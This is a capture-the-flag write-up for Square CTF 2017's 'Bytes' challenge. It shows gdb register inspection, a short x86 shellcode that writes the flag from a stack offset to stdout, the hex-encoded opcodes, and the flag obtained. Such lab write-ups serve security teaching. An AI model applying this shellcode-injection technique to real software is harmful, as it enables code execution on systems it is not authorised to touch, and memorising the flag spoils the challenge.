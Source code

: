 > # Bytes (50 points, Exploit)
> You can use a lot of bytes.
> 
> Our operatives found this site, which appears to control some of the androids’ infrastructure! The robots love x86 assembly; the only thing easier for them to work with is binary. 64 bytes should be enough for anyone.
> This URL is unique to your team! Don't share it with competitors!
> https://*redacted*.capturethesquare.com 

1. To get started, download the file
2. Run it: 
```
daMage@kalima:~/ctfs/squarectf2017/bytes$ ./bytes  f000
Shellcode location: 0xf770d000
Flag location: 0xffad5e50
WUNTEE_CHALLENGE_FLAG environmental variable not set. Could not read flag.
```
3. Prepare the environment:
```
daMage@kalima:~/ctfs/squarectf2017/bytes$ echo abcdefghijklmnopqrstu > flag.txt
daMage@kalima:~/ctfs/squarectf2017/bytes$ export WUNTEE_CHALLENGE_FLAG=flag.txt
```
4. Run the executable with gdb, and pass the cc's (interrupt / Int3) as the shellcode. Now is a good time to check the registers: 
```
daMage@kalima:~/ctfs/squarectf2017/bytes$ gdb -q ./bytes
Reading symbols from ./bytes...(no debugging symbols found)...done.
(gdb) r cccccc
Starting program: /home/daMage/ctfs/squarectf2017/bytes/bytes cccccc
Shellcode location: 0xf7fd1000
Flag location: *0xffffd200*

Program received signal SIGTRAP, Trace/breakpoint trap.
0xf7fd1001 in ?? ()
(gdb) info registers 
eax            0x4	4
ecx            0xffffd200	-11776
edx            0x5	5
ebx            0x1	1
esp            0xffffd1f0	*0xffffd1f0*
ebp            0xffffd298	0xffffd298
esi            0x2	2
edi            0xf7fad000	-134557696
eip            0xf7fd1001	0xf7fd1001
eflags         0x286	[ PF SF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) 
```
5. Notice that the flag address is pretty close to stack pointer (just 0x10 offset).
6. Prepare simple shellcode: 
```
daMage@kalima:~/ctfs/squarectf2017/bytes$ cat test.asm 
mov edx,0x24 ; length to print, just guess now
mov ecx,esp  ; count the location from stack pointer
add ecx,0x10 ; offset was 0x10, right
mov ebx,1    ; file descriptor for stdout
mov eax,4    ; sys_write call number (for 32-bit)
int 0x80     ; Do linux syscall
mov eax,1    ; exit gracefully
int 0x80     ; fin
```
7. Compile with nasm and get the opcodes with objdump: 
```
daMage@kalima:~/ctfs/squarectf2017/bytes$ nasm  -f elf test.asm
daMage@kalima:~/ctfs/squarectf2017/bytes$ objdump -d -M intel test.o |cut -f2

test.o:     file format elf32-i386

Disassembly of section .text:
00000000 <.text>:
ba 24 00 00 00       
89 e1                
83 c1 10             
bb 01 00 00 00       
b8 04 00 00 00       
cd 80                
b8 01 00 00 00       
cd 80           
```
8. Clean up the output from objdump and try it locally:
```
daMage@kalima:~/ctfs/squarectf2017/bytes$ objdump -d -M intel test.o |cut -f2|tail -n 8 |tr -d ' \n'; echo
ba2400000089e183c110bb01000000b804000000cd80b801000000cd80
daMage@kalima:~/ctfs/squarectf2017/bytes$ ./bytes ba2400000089e183c110bb01000000b804000000cd80b801000000cd80
Shellcode location: 0xf77c1000
Flag location: 0xfff684e0
abcdefghijklmnopqrstu
daMage@kalima:~/ctfs/squarectf2017/bytes$
```
9. Finally pass the hex-encoded string to the online form and get flag:
```
Output:

Shellcode location: 0xf7765000
Flag location: 0xffd4e320
flag-nolyl-kuhyc-leduv-ryvad-mekyk


Status:

pid 82 exit 1
```
